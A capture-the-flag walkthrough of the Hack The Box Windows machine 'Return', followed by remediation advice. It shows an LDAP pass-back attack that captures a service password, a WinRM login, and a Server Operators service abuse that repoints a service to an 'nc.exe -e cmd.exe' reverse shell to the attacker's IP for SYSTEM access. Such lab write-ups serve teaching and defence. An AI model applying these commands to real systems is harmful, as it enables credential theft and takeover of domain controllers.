








# HTB — Return (Easy, Windows)

## Overview

Return is an easy Windows Active Directory machine. A printer administration panel allows redirecting the device's LDAP authentication to an attacker-controlled host, which leaks the service account's cleartext password (an LDAP pass-back attack). Those credentials provide a foothold over WinRM. The account belongs to the **Server Operators** group, allowing a service binary path to be reconfigured to gain a SYSTEM shell.

## Reconnaissance

### Port scan

````
$ nmap -sV -sC 10.129.95.241
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local)
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (WinRM)
Service Info: Host: PRINTER; OS: Windows
````

The host is a domain controller for `return.local`, with WinRM (5985) exposed and an IIS site on port 80.

## Foothold

### LDAP pass-back attack

Port 80 serves an "HTB Printer Admin Panel":



The settings page holds the printer's LDAP configuration, including the server address it authenticates against:



The panel lets the LDAP server address be changed without re-entering or validating the stored credentials. By pointing it at my attack host and starting a listener on the LDAP port, the printer sends its configured service-account credentials to me:



Listening on port 389 captured the `svc-printer` account's password in cleartext:

````
$ sudo nc -lvp 389
````



### WinRM access

The recovered credentials authenticate over WinRM as `svc-printer`:

````
$ evil-winrm -i 10.129.95.241 -u svc-printer -p '<REDACTED>'
````



## Privilege Escalation

### Server Operators group → service abuse

Checking the account's privileges and groups showed membership in **Server Operators**, which grants the ability to manage (create, configure, start, and stop) Windows services:



Windows services run as `LocalSystem`. Because Server Operators can reconfigure a service's binary path, I uploaded `nc.exe`, repointed an existing service (`vss`) to a reverse-shell command, and restarted it:

````
*Evil-WinRM* PS> sc.exe config vss binPath="C:\...\nc.exe -e cmd.exe 10.10.x.x 1337"
*Evil-WinRM* PS> sc.exe stop vss
*Evil-WinRM* PS> sc.exe start vss
````



The service executed the payload as SYSTEM, returning an administrator shell:



````
C:\> whoami
nt authority\system
````

## Remediation

- **LDAP pass-back:** Never allow an LDAP server address to be changed without re-authenticating; store service credentials so they cannot be replayed to an arbitrary host, and segment printer management interfaces.
- **Cleartext credential exposure:** Use LDAPS and avoid configurations that transmit bind credentials to untrusted endpoints.
- **Server Operators membership:** Treat Server Operators as effectively domain-admin-equivalent on a DC; remove service accounts from it and apply least privilege.
````
````